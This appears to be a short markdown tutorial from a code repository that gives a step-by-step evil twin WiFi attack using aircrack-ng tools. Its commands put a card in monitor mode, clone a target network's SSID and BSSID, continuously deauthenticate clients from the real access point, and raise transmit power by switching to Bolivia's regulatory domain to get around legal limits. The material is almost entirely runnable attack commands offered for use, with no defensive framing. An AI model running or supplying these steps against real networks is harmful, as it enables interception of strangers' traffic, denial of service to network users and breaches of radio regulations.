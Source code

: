 Basic Evil Twin Setup
=====================

**Put your WiFi card in monitoring mode**

```sh
airmon-ng start wlan0
```

This command is going to crate a new network interface called `wlan0mon`

**Start airdump-ng**

```sh
airodump-ng wlan0mon
```

Leave airdump open throughout the session to find other interesting data

**Select the SSID to twin**

The right-most column contains the SSIDs currently advertised but have a look at the second part of airdump-ng output which contains the probe requests.

Take a note of the name, the channel and the BSSID (MAC address).

**Create a new access point (the evil twin)**

```sh
airbase-ng -a <bssid> --essid <essid> -c <channel number> wlan0mon
```

You don't need the `-a` flag in some cases. Don't be afraid to experiment.

**Deauth Clients**

```sh
aireplay-ng --deauth 0 -a <bssid>
```

**Boost The Power**

```sh
iw reg set BO
```

This will reconfigure the card to use Bolivia's regulatory requirements which will allows us to max out the txpower. You can also use country code US in some cases.

```sh
iwconfig wlan0 txpower 30
```

This command will set the power up.
